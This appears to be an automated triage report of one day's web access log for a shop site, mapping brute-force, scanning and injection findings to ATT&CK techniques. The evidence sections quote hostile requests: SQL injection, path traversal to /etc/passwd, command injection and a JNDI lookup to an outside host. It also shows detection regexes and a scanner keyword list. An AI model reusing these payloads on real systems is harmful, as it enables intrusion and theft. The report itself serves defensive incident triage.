


# `access.log`

*Log triage report*

Apache / Nginx access log · 2026-11-10 00:02:21 to 2026-11-10 23:59:01

> **8 findings: 1 critical, 3 high, 3 medium, 1 low**
>
> Start with: `203.0.113.99` was served `/backup.zip`; successful responses: 1.

- **Lines read:** 1 107
- **Events parsed:** 1 105
- **Lines skipped:** 2
- **Rules applied:** 21 from built-in default.yaml
- **Clock:** as recorded in the log
- **SHA-256 of the input:** `c8408566adc744c03b5f97889cd17c0805dbb0c094f107466b20181166a5e5eb`

## Findings

| \# | Severity | Finding | Subject | ATT&CK | Events | First seen |
| --- | --- | --- | --- | --- | --- | --- |
| 1 | **CRITICAL** | Secret or backup file was served to a client | `203.0.113.99` | `T1552.001` | 1 | 2026-11-10 03:13:41 |
| 2 | **HIGH** | Repeated refused logins on a web form | `198.51.100.177` | `T1110.001` | 64 | 2026-11-10 11:40:12 |
| 3 | **HIGH** | Injection or path traversal pattern in a request | `203.0.113.99` | `T1190` | 13 | 2026-11-10 03:20:49 |
| 4 | **HIGH** | Login form accepted a client after repeated refusals | `198.51.100.177` | `T1110` | 1 | 2026-11-10 11:45:30 |
| 5 | **MEDIUM** | Burst of 404 responses to one client | `203.0.113.99` | `T1595.003` | 43 | 2026-11-10 03:12:07 |
| 6 | **MEDIUM** | Burst of HTTP 5xx responses | — | `T1190` | 43 | 2026-11-10 03:20:41 |
| 7 | **MEDIUM** | Probing for admin panels and secret files | `203.0.113.99` | `T1595.003` | 30 | 2026-11-10 03:12:07 |
| 8 | **LOW** | Request from a known scanning tool | `203.0.113.99` | `T1595.002` | 60 | 2026-11-10 03:12:07 |

## Timeline and sources





## Details

### 1. Secret or backup file was served to a client

**CRITICAL** · `T1552.001` Unsecured Credentials: Credentials In Files · Credential Access · 1 event · 2026-11-10 03:13:41 to 2026-11-10 03:13:41

**What was seen.** `203.0.113.99` was served `/backup.zip`; successful responses: 1

The server answered 200 to a request for a file that normally holds secrets or a copy of the site: .env, .git, key files, dumps and archives.

**Why it fired.** `event = http_request and status in [200, 206] and path matches /(^|/)(\.env(\.[\w-]+)?|\.git/(config|HEAD|index)|\.htpasswd|\.aws/credentials|id_rsa|id…/`; every matching event per ip.

Evidence

| Line | Time | Host | User | IP | Event | Result | Path | Status |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 52 | 2026-11-10 03:13:41 | — | — | `203.0.113.99` | `http_request` | `success` | `/backup.zip` | `200` |

Raw lines:

```text
52: 203.0.113.99 - - [10/Nov/2026:03:13:41 +0500] "GET /backup.zip HTTP/1.1" 200 48211433 "-" "Mozilla/5.0 zgrab/0.x"
```

**What to check.** Remove the file from the web root now. Rotate every secret it contains and assume the content is known to the client that fetched it.

Rule web-secret-file-served from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1552/001/

### 2. Repeated refused logins on a web form

**HIGH** · `T1110.001` Brute Force: Password Guessing · Credential Access · 64 events · 2026-11-10 11:40:12 to 2026-11-10 11:45:24

**What was seen.** 64 refused logins from `198.51.100.177` on `/login`, up to 62 within 5 min

One client sent many POST requests to a login path and was refused each time. Only 401, 403 and 429 count: applications that answer 200 to a wrong password need their own rule.

**Why it fired.** `event = http_request and method = POST and status in [401, 403, 429] and path matches /(^|/)(login|log-in|signin|sign-in|wp-login\.php|auth|session|token)(/|\.|$)/`; at least 20 matching events within 5 min per ip.

Evidence: 5 of 64 matching events

| Line | Time | Host | User | IP | Event | Result | Method | Path | Status |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 368 | 2026-11-10 11:40:12 | — | — | `198.51.100.177` | `http_request` | `failure` | `POST` | `/login` | `401` |
| 369 | 2026-11-10 11:40:19 | — | — | `198.51.100.177` | `http_request` | `failure` | `POST` | `/login` | `401` |
| 370 | 2026-11-10 11:40:23 | — | — | `198.51.100.177` | `http_request` | `failure` | `POST` | `/login` | `401` |
| 371 | 2026-11-10 11:40:30 | — | — | `198.51.100.177` | `http_request` | `failure` | `POST` | `/login` | `401` |
| 372 | 2026-11-10 11:40:34 | — | — | `198.51.100.177` | `http_request` | `failure` | `POST` | `/login` | `401` |

Raw lines:

```text
368: 198.51.100.177 - - [10/Nov/2026:11:40:12 +0500] "POST /login HTTP/1.1" 401 482 "https://shop.example/login" "python-requests/2.32.5"
369: 198.51.100.177 - - [10/Nov/2026:11:40:19 +0500] "POST /login HTTP/1.1" 401 482 "https://shop.example/login" "python-requests/2.32.5"
370: 198.51.100.177 - - [10/Nov/2026:11:40:23 +0500] "POST /login HTTP/1.1" 401 482 "https://shop.example/login" "python-requests/2.32.5"
371: 198.51.100.177 - - [10/Nov/2026:11:40:30 +0500] "POST /login HTTP/1.1" 401 482 "https://shop.example/login" "python-requests/2.32.5"
372: 198.51.100.177 - - [10/Nov/2026:11:40:34 +0500] "POST /login HTTP/1.1" 401 482 "https://shop.example/login" "python-requests/2.32.5"
```

**What to check.** Check for a successful login from this client afterwards. Add rate limiting or a lockout on the login endpoint.

Rule web-login-bruteforce from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1110/001/

### 3. Injection or path traversal pattern in a request

**HIGH** · `T1190` Exploit Public-Facing Application · Initial Access · 13 events · 2026-11-10 03:20:49 to 2026-11-10 03:21:52

**What was seen.** Requests with attack payloads from `203.0.113.99`: 13; examples: `/api/cart?item=1;cat /etc/passwd, /download?file=....//....//etc/passwd, /download?file=../../../../etc/passwd, /download?file=/proc/self/environ, /product?id=${jndi:ldap://203.0.113.99/a} and 8 more`

Request targets contain payloads for path traversal, SQL injection, command injection or JNDI lookups.

**Why it fired.** `event = http_request and target matches /\.\./|\.\.\\|%2e%2e[/%] | /etc/passwd|/proc/self/environ|win\.ini | union[\s+]+(all[\s+…/`; every matching event per ip.

Evidence: 5 of 13 matching events

| Line | Time | Host | User | IP | Event | Result | Target |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 67 | 2026-11-10 03:20:49 | — | — | `203.0.113.99` | `http_request` | `success` | `/product?id=1' OR '1'='1` |
| 68 | 2026-11-10 03:20:53 | — | — | `203.0.113.99` | `http_request` | `failure` | `/product?id=1' UNION SELECT NULL--` |
| 69 | 2026-11-10 03:20:56 | — | — | `203.0.113.99` | `http_request` | `failure` | `/product?id=1' UNION SELECT NULL,NULL--` |
| 70 | 2026-11-10 03:20:59 | — | — | `203.0.113.99` | `http_request` | `failure` | `/product?id=1' UNION SELECT NULL,NULL,NULL--` |
| 71 | 2026-11-10 03:21:08 | — | — | `203.0.113.99` | `http_request` | `failure` | `/product?id=1 AND SLEEP(5)` |

Raw lines:

```text
67: 203.0.113.99 - - [10/Nov/2026:03:20:49 +0500] "GET /product?id=1%27%20OR%20%271%27=%271 HTTP/1.1" 200 12728 "-" "sqlmap/1.9.4#stable (https://sqlmap.org)"
68: 203.0.113.99 - - [10/Nov/2026:03:20:53 +0500] "GET /product?id=1%27%20UNION%20SELECT%20NULL-- HTTP/1.1" 500 8085 "-" "sqlmap/1.9.4#stable (https://sqlmap.org)"
69: 203.0.113.99 - - [10/Nov/2026:03:20:56 +0500] "GET /product?id=1%27%20UNION%20SELECT%20NULL,NULL-- HTTP/1.1" 500 16214 "-" "sqlmap/1.9.4#stable (https://sqlmap.org)"
70: 203.0.113.99 - - [10/Nov/2026:03:20:59 +0500] "GET /product?id=1%27%20UNION%20SELECT%20NULL,NULL,NULL-- HTTP/1.1" 500 19000 "-" "sqlmap/1.9.4#stable (https://sqlmap.org)"
71: 203.0.113.99 - - [10/Nov/2026:03:21:08 +0500] "GET /product?id=1%20AND%20SLEEP(5) HTTP/1.1" 500 11442 "-" "sqlmap/1.9.4#stable (https://sqlmap.org)"
```

**What to check.** Look at the status codes: a 200 on such a request needs a manual check of what the application returned. Patch or add a WAF rule for the parameter.

Rule web-injection-attempt from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1190/

### 4. Login form accepted a client after repeated refusals

**HIGH** · `T1110` Brute Force · Credential Access · 1 event · 2026-11-10 11:45:30 to 2026-11-10 11:45:30

**What was seen.** `198.51.100.177` was accepted on `/login` after 64 refused logins within 30 min

A client that had just been refused on a login path many times then got a redirect or a 200 from the same path. On most applications that means the password was found.

**Why it fired.** `event = http_request and method = POST and status in [200, 302, 303] and path matches /(^|/)(login|log-in|signin|sign-in|wp-login\.php|auth|session|token)(/|\.|$)/`; a matching event preceded within 30 min by at least 10 events per ip where method = POST and status in \[401, 403, 429\] and path matches /(^\|/)(login\|log-in\|signin\|sign-in\|wp-login\\.php\|auth\|session\|token)(/\|\\.\|$)/.

Evidence

| Line | Time | Host | User | IP | Event | Result | Method | Path | Status |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 438 | 2026-11-10 11:45:18 | — | — | `198.51.100.177` | `http_request` | `failure` | `POST` | `/login` | `401` |
| 439 | 2026-11-10 11:45:24 | — | — | `198.51.100.177` | `http_request` | `failure` | `POST` | `/login` | `401` |
| 440 | 2026-11-10 11:45:30 | — | — | `198.51.100.177` | `http_request` | `success` | `POST` | `/login` | `302` |

Raw lines:

```text
438: 198.51.100.177 - - [10/Nov/2026:11:45:18 +0500] "POST /login HTTP/1.1" 401 482 "https://shop.example/login" "python-requests/2.32.5"
439: 198.51.100.177 - - [10/Nov/2026:11:45:24 +0500] "POST /login HTTP/1.1" 401 482 "https://shop.example/login" "python-requests/2.32.5"
440: 198.51.100.177 - - [10/Nov/2026:11:45:30 +0500] "POST /login HTTP/1.1" 302 0 "https://shop.example/login" "python-requests/2.32.5"
```

**What to check.** Find the account behind the session and treat it as compromised: end its sessions, reset the password and review what the client requested next.

Rule web-login-after-refusals from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1110/

### 5. Burst of 404 responses to one client

**MEDIUM** · `T1595.003` Active Scanning: Wordlist Scanning · Reconnaissance · 43 events · 2026-11-10 03:12:07 to 2026-11-10 03:14:21

**What was seen.** 43 responses with status 404 to `203.0.113.99`, up to 43 within 5 min

One client received many 404 responses in a short time, which is what a directory or file brute-force looks like from the server side.

**Why it fired.** `event = http_request and status = 404`; at least 30 matching events within 5 min per ip.

Evidence: 5 of 43 matching events

| Line | Time | Host | User | IP | Event | Result | Path | Status |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 20 | 2026-11-10 03:12:07 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.env` | `404` |
| 21 | 2026-11-10 03:12:10 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.env.bak` | `404` |
| 22 | 2026-11-10 03:12:12 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.env.production` | `404` |
| 23 | 2026-11-10 03:12:15 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.git/config` | `404` |
| 24 | 2026-11-10 03:12:19 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.git/HEAD` | `404` |

Raw lines:

```text
20: 203.0.113.99 - - [10/Nov/2026:03:12:07 +0500] "GET /.env HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
21: 203.0.113.99 - - [10/Nov/2026:03:12:10 +0500] "GET /.env.bak HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
22: 203.0.113.99 - - [10/Nov/2026:03:12:12 +0500] "GET /.env.production HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
23: 203.0.113.99 - - [10/Nov/2026:03:12:15 +0500] "GET /.git/config HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
24: 203.0.113.99 - - [10/Nov/2026:03:12:19 +0500] "GET /.git/HEAD HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
```

**What to check.** Rate-limit or block the client. Broken links on your own pages produce the same picture, so look at the paths first.

Rule web-not-found-burst from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1595/003/

### 6. Burst of HTTP 5xx responses

**MEDIUM** · `T1190` Exploit Public-Facing Application · Initial Access · 43 events · 2026-11-10 03:20:41 to 2026-11-10 14:24:05

**What was seen.** 43 responses with status 5xx, up to 38 within 5 min; paths: `/api/checkout, /product`

The server returned many 5xx errors within a few minutes. This is a lead, not a verdict: an outage, a bad deploy and an exploitation attempt that crashes the application all look the same here.

**Why it fired.** `event = http_request and status ≥ 500`; at least 20 matching events within 5 min.

Evidence: 5 of 43 matching events

| Line | Time | Host | User | IP | Event | Result | Path | Status |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 597 | 2026-11-10 14:20:05 | — | — | `192.0.2.2` | `http_request` | `failure` | `/api/checkout` | `502` |
| 598 | 2026-11-10 14:20:13 | — | — | `192.0.2.78` | `http_request` | `failure` | `/api/checkout` | `502` |
| 599 | 2026-11-10 14:20:20 | — | — | `198.51.100.95` | `http_request` | `failure` | `/api/checkout` | `502` |
| 600 | 2026-11-10 14:20:27 | — | — | `198.51.100.59` | `http_request` | `failure` | `/api/checkout` | `502` |
| 602 | 2026-11-10 14:20:36 | — | — | `192.0.2.11` | `http_request` | `failure` | `/api/checkout` | `502` |

Raw lines:

```text
597: 192.0.2.2 - - [10/Nov/2026:14:20:05 +0500] "POST /api/checkout HTTP/1.1" 502 166 "https://shop.example/checkout" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.6 Safari/605.1.15"
598: 192.0.2.78 - - [10/Nov/2026:14:20:13 +0500] "POST /api/checkout HTTP/1.1" 502 166 "https://shop.example/checkout" "Mozilla/5.0 (X11; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0"
599: 198.51.100.95 - - [10/Nov/2026:14:20:20 +0500] "POST /api/checkout HTTP/1.1" 502 166 "https://shop.example/checkout" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36"
600: 198.51.100.59 - - [10/Nov/2026:14:20:27 +0500] "POST /api/checkout HTTP/1.1" 502 166 "https://shop.example/checkout" "Mozilla/5.0 (Linux; Android 15; Pixel 9) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Mobile Safari/537.36"
602: 192.0.2.11 - - [10/Nov/2026:14:20:36 +0500] "POST /api/checkout HTTP/1.1" 502 166 "https://shop.example/checkout" "Mozilla/5.0 (X11; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0"
```

**What to check.** Read the application error log for the same minutes. If the errors come from one client or one unusual path, treat it as an attack.

Rule web-server-error-burst from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1190/

### 7. Probing for admin panels and secret files

**MEDIUM** · `T1595.003` Active Scanning: Wordlist Scanning · Reconnaissance · 30 events · 2026-11-10 03:12:07 to 2026-11-10 03:13:37

**What was seen.** `203.0.113.99` probed sensitive paths, requests: 30; paths: `/.DS_Store, /.aws/credentials, /.env, /.env.bak, /.env.production and 25 more`

A client asked for paths that exist only on misconfigured servers or on software this site may not run, and was refused each time.

**Why it fired.** `event = http_request and status ≥ 400 and path matches /(^|/)(\.env|\.git/|\.svn/|\.aws/|\.ssh/|\.htpasswd|\.DS_Store|wp-admin|wp-login\.php|xm…/`; every matching event per ip.

Evidence: 5 of 30 matching events

| Line | Time | Host | User | IP | Event | Result | Path | Status |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 20 | 2026-11-10 03:12:07 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.env` | `404` |
| 21 | 2026-11-10 03:12:10 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.env.bak` | `404` |
| 22 | 2026-11-10 03:12:12 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.env.production` | `404` |
| 23 | 2026-11-10 03:12:15 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.git/config` | `404` |
| 24 | 2026-11-10 03:12:19 | — | — | `203.0.113.99` | `http_request` | `failure` | `/.git/HEAD` | `404` |

Raw lines:

```text
20: 203.0.113.99 - - [10/Nov/2026:03:12:07 +0500] "GET /.env HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
21: 203.0.113.99 - - [10/Nov/2026:03:12:10 +0500] "GET /.env.bak HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
22: 203.0.113.99 - - [10/Nov/2026:03:12:12 +0500] "GET /.env.production HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
23: 203.0.113.99 - - [10/Nov/2026:03:12:15 +0500] "GET /.git/config HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
24: 203.0.113.99 - - [10/Nov/2026:03:12:19 +0500] "GET /.git/HEAD HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
```

**What to check.** No action if every answer is 4xx. Check that none of the listed paths returned 200 to anyone else.

Rule web-sensitive-path-probe from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1595/003/

### 8. Request from a known scanning tool

**LOW** · `T1595.002` Active Scanning: Vulnerability Scanning · Reconnaissance · 60 events · 2026-11-10 03:12:07 to 2026-11-10 03:21:52

**What was seen.** Requests from `203.0.113.99` with a scanner User-Agent: 60; `Mozilla/5.0 zgrab/0.x, sqlmap/1.9.4#stable (https://sqlmap.org)`

The User-Agent names a scanning or exploitation tool. Tools can send any User-Agent, so the absence of this finding proves nothing.

**Why it fired.** `event = http_request and user_agent matches /sqlmap|nikto|nuclei|wpscan|masscan|zgrab|dirbuster|gobuster|feroxbuster|ffuf|nessus|ope…/`; every matching event per ip.

Evidence: 5 of 60 matching events

| Line | Time | Host | User | IP | Event | Result | User agent |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 20 | 2026-11-10 03:12:07 | — | — | `203.0.113.99` | `http_request` | `failure` | `Mozilla/5.0 zgrab/0.x` |
| 21 | 2026-11-10 03:12:10 | — | — | `203.0.113.99` | `http_request` | `failure` | `Mozilla/5.0 zgrab/0.x` |
| 22 | 2026-11-10 03:12:12 | — | — | `203.0.113.99` | `http_request` | `failure` | `Mozilla/5.0 zgrab/0.x` |
| 23 | 2026-11-10 03:12:15 | — | — | `203.0.113.99` | `http_request` | `failure` | `Mozilla/5.0 zgrab/0.x` |
| 24 | 2026-11-10 03:12:19 | — | — | `203.0.113.99` | `http_request` | `failure` | `Mozilla/5.0 zgrab/0.x` |

Raw lines:

```text
20: 203.0.113.99 - - [10/Nov/2026:03:12:07 +0500] "GET /.env HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
21: 203.0.113.99 - - [10/Nov/2026:03:12:10 +0500] "GET /.env.bak HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
22: 203.0.113.99 - - [10/Nov/2026:03:12:12 +0500] "GET /.env.production HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
23: 203.0.113.99 - - [10/Nov/2026:03:12:15 +0500] "GET /.git/config HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
24: 203.0.113.99 - - [10/Nov/2026:03:12:19 +0500] "GET /.git/HEAD HTTP/1.1" 404 153 "-" "Mozilla/5.0 zgrab/0.x"
```

**What to check.** Expected on any public server. Worth a look only if the same address appears in other findings.

Rule web-scanner-user-agent from built-in default.yaml. Technique: https://attack.mitre.org/techniques/T1595/002/

## Events by type

| Event | Result | Count |
| --- | --- | --- |
| `http_request` | `success` | 917 |
| `http_request` | `failure` | 188 |

Every parsed event with its normalised fields is in events.csv.

## Skipped lines

2 lines could not be read and were left out of the analysis.

| Line | Reason | Text |
| --- | --- | --- |
| 74 | not an access log line | `203.0.113.99 - - [10/Nov/2026:03:1` |
| 601 | not an access log line | `nginx: [warn] conflicting server name "shop.example" on 0.0.0.0:443, ignored` |

## Rules applied

| Rule | Severity | ATT&CK | Title | Findings |
| --- | --- | --- | --- | --- |
| `auth-success-after-failures` | **CRITICAL** | `T1110` | Successful login after repeated failures from the same address | — |
| `auth-password-guessing` | **HIGH** | `T1110.001` | Repeated failed logins from one address | — |
| `auth-password-spraying` | **HIGH** | `T1110.003` | One address trying many different accounts | — |
| `auth-new-source-for-user` | **MEDIUM** | `T1078` | Login from an address the account has not used before | — |
| `auth-root-login` | **MEDIUM** | `T1078.003` | Direct root login over SSH | — |
| `admin-night-activity` | **MEDIUM** | `T1078` | Administrative activity at night | — |
| `sudo-denied` | **LOW** | `T1548.003` | sudo attempt refused | — |
| `account-created` | **MEDIUM** | `T1136` | New user account created | — |
| `privileged-group-change` | **HIGH** | `T1098` | Account added to a privileged group | — |
| `win-service-installed` | **MEDIUM** | `T1543.003` | New Windows service installed | — |
| `win-scheduled-task-created` | **MEDIUM** | `T1053.005` | Scheduled task created | — |
| `win-encoded-powershell` | **HIGH** | `T1059.001` | PowerShell started with an encoded or download command | — |
| `win-audit-log-cleared` | **HIGH** | `T1070.001` | Windows event log cleared | — |
| `web-secret-file-served` | **CRITICAL** | `T1552.001` | Secret or backup file was served to a client | 1 |
| `web-injection-attempt` | **HIGH** | `T1190` | Injection or path traversal pattern in a request | 1 |
| `web-sensitive-path-probe` | **MEDIUM** | `T1595.003` | Probing for admin panels and secret files | 1 |
| `web-not-found-burst` | **MEDIUM** | `T1595.003` | Burst of 404 responses to one client | 1 |
| `web-scanner-user-agent` | **LOW** | `T1595.002` | Request from a known scanning tool | 1 |
| `web-login-bruteforce` | **HIGH** | `T1110.001` | Repeated refused logins on a web form | 1 |
| `web-login-after-refusals` | **HIGH** | `T1110` | Login form accepted a client after repeated refusals | 1 |
| `web-server-error-burst` | **MEDIUM** | `T1190` | Burst of HTTP 5xx responses | 1 |

A finding is a lead to verify, not a verdict. The report covers one file: anything outside it, and anything none of these rules describe, is not here.

---

soc-triage 0.1.0. First-pass triage of one file, not a replacement for a SIEM.
